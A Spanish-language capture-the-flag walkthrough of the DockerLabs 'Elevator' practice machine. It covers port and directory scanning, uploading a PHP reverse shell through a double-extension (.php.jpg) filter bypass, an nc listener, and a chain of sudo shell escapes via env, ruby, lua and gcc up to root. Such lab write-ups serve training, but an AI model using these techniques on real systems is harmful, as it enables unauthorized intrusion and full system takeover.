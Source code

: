 # Informe de Pentesting – Máquina Vulnerable *Elevator*

![Logo](/Elevator/Imagenes/Logo.png)

## Descripción

La máquina vulnerable *Elevator* fue descargada desde la página oficial de DockerLabs. Una vez descargado el archivo `elevator.zip`, se descomprime utilizando la herramienta `unzip`:

```bash
unzip elevator.zip
```

Posteriormente, se despliega la máquina con el script de instalación automática:

```bash
sudo bash auto_deploy.sh elevator.tar
```

## Objetivo

Obtener acceso inicial a la máquina e ir escalando privilegios hasta llegar a `root`.

---

## 1. Comprobación de Conectividad

Se verifica que la máquina esté activa usando un ping:

```bash
ping -c4 172.17.0.2
```

![Ping](/Elevator/Imagenes/Ping.jpeg)

---

## 2. Reconocimiento

### 2.1 Escaneo de Puertos

Se realiza un escaneo agresivo de todos los puertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Resultado: solo el puerto **80 (HTTP)** está abierto.

![Puertos](/Elevator/Imagenes/Puertos.jpeg)

### 2.2 Extracción de Puertos

Se utiliza el script personalizado `extractPorts` para filtrar los puertos encontrados y usar nmap para ver mas información de los servicios. 

```bash
nmap -sCV -p 80 172.17.0.2 -oN target.txt
```

---

## 3. Análisis de la Aplicación Web

Al acceder al sitio web en el puerto 80, no se detecta contenido destacable.

![Página Principal](/Elevator/Imagenes/Pagina.jpeg)

### 3.1 Fuzzing de Directorios

Se realiza un ataque de fuerza bruta para descubrir directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se descubren dos directorios interesantes. Se realiza fuzzing sobre `/themes/`:

```bash
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

![Fuzzing](/Elevator/Imagenes/Fuzzing.jpeg)

---

## 4. Explotación

### 4.1 Descubrimiento de Funcionalidad Vulnerable

En `http://172.17.0.2/themes/archivo.html` se encuentra una funcionalidad para subir imágenes (`.jpg` únicamente).

![Subida](/Elevator/Imagenes/Subir.jpeg)

Además, se descubren las rutas:

* `http://172.17.0.2/themes/uploads/`
* `http://172.17.0.2/themes/upload.php`

![Directorio Uploads](/Elevator/Imagenes/Directorio.jpeg)

### 4.2 Payload Malicioso

Se prepara una reverse shell PHP con doble extensión (`.php.jpg`):

```php
nano php_reverseshell.php.jpg
```

![Reverse Shell GitHub](/Elevator/Imagenes/Gitrevershell.jpeg)
![Tricks](/Elevator/Imagenes/tricks.jpeg)

El archivo se sube exitosamente, y se puede ejecutar desde la carpeta `/themes/uploads/`.

![Archivo Subido](/Elevator/Imagenes/Archivo.jpeg)
![Subida Exitosa](/Elevator/Imagenes/Subida.jpeg)
![Carga Exitosa](/Elevator/Imagenes/Carga.jpeg)

### 4.3 Acceso Remoto

Se escucha en el puerto definido en el payload (443):

```bash
sudo nc -lvnp 443
```

![Escucha](/Elevator/Imagenes/Escucha.jpeg)

Se accede exitosamente como `www-data`.

---

## 5. Escalada de Privilegios

Se aprovechan múltiples permisos `sudo` entre usuarios, realizando un encadenamiento de escaladas:

1. `www-data` puede ejecutar `/usr/bin/env` como `daphne`
2. `daphne` puede usar `/usr/bin/ash` como `vilma`
3. `vilma` puede usar `ruby` como `shaggy`
4. `shaggy` puede usar `lua` como `fred`
5. `fred` puede usar `gcc` como `scooby`
6. `scooby` puede usar `sudo` como `root`

```bash
sudo -u daphne /usr/bin/env /bin/bash
sudo -u vilma /usr/bin/ash
sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
sudo -u scooby /usr/bin/gcc -wrapper /bin/bash,-s .
sudo -u root /usr/bin/sudo su
```

![Intrusión](/Elevator/Imagenes/Intrusion.jpeg)
![Escalada](/Elevator/Imagenes/Escalada.jpeg)

---

## Conclusión

La máquina *Elevator* presenta una cadena de configuraciones inseguras en múltiples usuarios que permiten una escalada de privilegios completa hasta `root`. El punto inicial de explotación es una mala validación de archivos subidos, que permite ejecución remota de código.

